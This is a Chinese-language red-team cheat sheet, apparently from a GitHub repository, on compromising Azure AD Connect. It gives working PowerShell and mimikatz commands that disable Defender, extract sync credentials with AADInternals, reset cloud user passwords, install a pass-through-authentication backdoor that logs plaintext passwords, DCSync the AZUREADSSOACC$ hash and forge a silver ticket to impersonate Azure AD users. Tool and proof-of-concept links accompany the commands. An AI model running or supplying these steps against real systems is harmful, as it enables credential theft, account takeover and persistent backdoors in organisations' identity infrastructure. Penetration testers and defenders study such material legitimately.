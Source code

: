 #### 检查是否安装了 Azure AD Connect：Get-ADSyncConnector

	对于PHS，我们可以提取凭证
	对于PTA，我们可以安装代理
	对于联合身份，我们可以使用 DA 从 ADFS 服务器提取证书
	PS > Set-MpPreference -DisableRealtimeMonitoring $true
	PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
	PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
	PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
	PS > Get-AADIntSyncCredentials

	获取 SYNC 帐户的令牌并重置本地管理员密码
	PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
	PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
	PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
	PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
	PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose

#### 检查是否安装了 PTA：Get-Command -Module PassthroughAuthPSModule
	安装 PTA 后门
	PS AADInternals> Install-AADIntPTASpy
	PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords

#### Azure AD Connect - 密码提取
	AD Sync 中的凭据：C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf
工具 | 需要在目标上执行代码 | DLL 依赖项 | 本地需要 MSSQL | 本地需要python
--- | --- | --- | --- | ---
ADSyncDecrypt | 是 | 是 | 否 | 否
ADSyncGather | 是 | 否 | 否 | 是
ADSyncQuery | 否 (仅限网络 RPC 调用) | 否 | 是 | 是

	git clone https://github.com/fox-it/adconnectdump
#### Azure AD Connect - MSOL 帐户的密码和 DCSync
  	可以使用 MSOL 帐户执行DCSync攻击
	要求：
	使用 Azure AD Connect 服务破坏服务器
	访问 ADSyncAdmins 或本地管理员组
	使用azuread_decrypt_msol.ps1来恢复 MSOL 帐户的解密密码：
	azuread_decrypt_msol.ps1: AD Connect 同步凭证提取 POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
	azuread_decrypt_msol_v2.ps1：更新了转储 Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c使用的 MSOL 服务帐户（允许 DCSync）的方法
	现在可以使用检索到的 MSOL 帐户凭据来发起 DCSync 攻击。
#### Azure AD Connect - 银票上的无缝单点登录
  	任何可以编辑 AZUREADSSOACCS$ 帐户属性的人都可以使用 Kerberos 模拟 Azure AD 中的任何用户（如果没有 MFA）
	PHS 和 PTA 都支持无缝 SSO。如果启用无缝 SSO，则会在本地 AD 中创建计算机帐户AZUREADSSOC。
	AZUREADSSOACC 帐户的密码永远不会更改。
	使用https://autologon.microsoftazuread-sso.com/将 Kerberos 票证转换为 Office 365 和 Azure 的 SAML 和 JWT

	AZUREADSSOACC 帐户的 NTLM 密码哈希，例如f9969e088b2c13d93833d0ce436c76dd.
	mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
	我们要模拟的用户的 AAD 登录名，例如elrond@contoso.com. 这通常是他的 userPrincipalName 或来自本地 AD 的邮件属性。
	我们要模拟的用户的 SID，例如S-1-5-21-2121516926-2695913149-3163778339-1234.
	创建 Silver Ticket 并将其注入 Kerberos 缓存：
	mimikatz.exe "kerberos::golden /user:elrond
	/sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
	/domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
	/target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
	启动 Mozilla Firefox
	转到 about:config 并将network.negotiate-auth.trusted-uris preference值设置为https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com
	导航到与我们的 AAD 域集成的任何 Web 应用程序。填写用户名，同时将密码字段留空。